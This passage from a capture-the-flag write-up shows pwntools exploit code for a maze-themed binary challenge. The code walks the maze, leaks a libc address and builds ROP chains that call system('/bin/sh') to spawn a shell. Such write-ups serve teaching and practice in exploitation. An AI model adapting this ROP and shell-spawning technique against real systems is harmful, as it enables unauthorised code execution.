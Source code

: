 ```python
    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b'd')

    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', payload1)
    p.sendlineafter(b'): ', b'd')

    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', payload2)
    p.sendlineafter(b'): ', b'a')

    p.sendlineafter(b'): ', b'a')
    p.sendlineafter(b'): ', b'a')
    p.sendlineafter(b'): ', b'a')

    log.info('time check: {s}s'.format(s = time.time() - t))
```

After writing out our ROP chain to leak libc, we'll have to backtrack out by going West.  At this point we know if it is possible to forward/backtrack based on the previous tests, so just move forward, write out ROP chains, then return back to the lower right corner of the maze.

```python
    # kick down walls to the grue
    for i in range(39 - gx):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b'a')

    for j in range(39 - gy):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b'w')

    log.info('time check: {s}s'.format(s = time.time() - t))

    p.recvuntil(b'Grue.\n')

    leak = u64(p.recv(6) + b'\0\0')
    log.info('leak: {leak}'.format(leak = hex(leak)))
    libc.address = leak - libc.sym.puts
    log.info('libc.address: {loc}'.format(loc = hex(libc.address)))

    payload1  = b''
    payload1 += 8 * b'\xff'
    payload1 += p64(pop_rdi+1)
    payload1 += p64(pop_rdi)
    payload1 += p64(libc.search(b'/bin/sh').__next__())
    if payload1.find(b'\n') != -1:
        log.critical('NL in payload 1')
        p.close()
        continue
    if payload1[28] & 4 == 0:
        log.critical('cannot forwardtrack 4')
        p.close()
        continue
    if payload1[28] & 1 == 0:
        log.critical('cannot backtrack 2')
        p.close()
        continue

    payload2  = b''
    payload2 += p64(libc.sym.system)
```